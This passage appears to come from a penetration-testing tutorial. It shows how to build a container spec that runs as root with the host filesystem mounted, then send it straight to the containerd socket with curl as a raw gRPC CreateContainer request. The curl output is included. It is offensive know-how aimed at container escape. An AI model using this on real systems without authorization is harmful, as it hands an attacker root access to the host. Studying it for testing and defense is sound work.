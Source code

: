 The container specification, which will be insterted at the `CONTAINER_SPEC_HERE` marker, will be based on the example I have available [here](https://github.com/stephenbradshaw/pentesting_stuff/blob/master/containerd/basecontainerspec.json). This container spec will create a container running as the root user with a host filesystem, and has most of its fields set to usable values. We just need to modify the `args` and `env` items in the `process` section of the document. These will be filled in with data we take from the `docker.io/library/nginx:1.14.2` image definition, where we also obtained the `labels` data for the container structure. The values we want are from the `Env` and `Cmd` fields from the image definition.

The fields in the base template we need to fill in are at the very start of the template, and are shown in the extract below:

```
{"ociVersion": "1.1.0", "process": {"user": {"uid": 0, "gid": 0, "additionalGids": [0]}, "args": [], "env": [], "cwd": "/", "capabilities": {"bounding":
```

We want to take the following values from the image definition to 

```
"Env":["PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin","NGINX_VERSION=1.14.2-1~stretch","NJS_VERSION=1.14.2.0.2.6-1~stretch"],"Cmd":["nginx","-g","daemon off;"]
```

Once we have updated the `args` and the `env` fields, our completed container specification file `containerspec.json` will start like the following:

```
{"ociVersion": "1.1.0", "process": {"user": {"uid": 0, "gid": 0, "additionalGids": [0]}, "args": ["nginx", "-g", "daemon off;"], "env": ["PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin", "NGINX_VERSION=1.14.2-1~stretch", "NJS_VERSION=1.14.2.0.2.6-1~stretch"], "cwd": "/", "capabilities": {"bounding":
```

Lets now merge our container template `container_template.json` file together with our container spec `containerspec.json` together into a combined file `testcontainer.json` that we can then use to create a `CreateContainerRequest` message.

```
$ python -c "open('testcontainer.json', 'w').write(open('container_template.json').read().replace('\"CONTAINER_SPEC_HERE\"', open('containerspec.json').read().rstrip('\n')))"
```

Now create the binary `CreateContainerRequest` message using the JSON template we have created.

```
$ ./protobuf_parser.py -m containers_pb2.py -t CreateContainerRequest -i testcontainer.json -o createcontainerrequest.bin
Written to createcontainerrequest.bin
```

Send the request:

```
$ sudo curl -s -v --http2-prior-knowledge --unix-socket /run/containerd/containerd.sock -X POST -H "content-type: application/grpc" -H "user-agent: grpc-go/1.59.0" -H "te: trailers" -H "containerd-namespace: k8s.io" http://localhost/containerd.services.containers.v1.Containers/Create --data-binary @createcontainerrequest.bin --output createcontainerresponse.bin
*   Trying /run/containerd/containerd.sock:0...
* Connected to localhost (/run/containerd/containerd.sock) port 80 (#0)
* Using HTTP2, server supports multiplexing
* Connection state changed (HTTP/2 confirmed)
* Copying HTTP/2 data in stream buffer to connection buffer after upgrade: len=0
* Using Stream ID: 1 (easy handle 0x556615a10a10)
> POST /containerd.services.containers.v1.Containers/Create HTTP/2
> Host: localhost
> accept: */*
> content-type: application/grpc
> user-agent: grpc-go/1.59.0
> te: trailers
> containerd-namespace: k8s.io
```